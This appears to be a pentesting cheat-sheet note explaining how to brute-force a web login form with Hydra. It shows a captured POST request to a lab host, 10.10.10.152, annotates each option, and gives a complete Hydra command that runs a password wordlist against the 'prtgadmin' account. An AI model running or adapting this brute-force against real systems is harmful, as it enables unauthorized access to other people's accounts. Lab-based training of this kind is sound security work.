 # Hydra

### http brute

The request in burp suite looks like:

```
POST /public/checklogin.htm HTTP/1.1
Host: 10.10.10.152
Content-Length: 39
Cache-Control: max-age=0
Origin: http://10.10.10.152
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: _ga=GA1.4.1366182311.1585918308; _gid=GA1.4.333900560.1586085370
Connection: close

loginurl=&username=admin&password=admin
```

`-l prtgadmin`  
use login prtgadmin  
`-P /usr/share/john/password.lst`  
use passwords from /usr/share/john/password.lst  
`http-post-form`  
for use POST requests  
`"/public/checklogin.htm:loginurl=&username=^USER^&password=^PASS^:Your login has failed"`  
**/public/checklogin.htm** - relate to POST /public/checklogin.htm HTTP/1.1  
**:loginurl=&username=^USER^&password=^PASS^** - fill username with username. In our case prtgadmin. Fill password with passwords from password list we specified  
**:Your login has failed** - ignore responce if there such sting in it. If there are no such string in response - consider, that password was found  

```bash
hydra -v -l prtgadmin -P /usr/share/john/password.lst 10.10.10.152 http-post-form "/public/checklogin.htm:loginurl=&username=^USER^&password=^PASS^:Your login has failed" -t 5 -I -
```
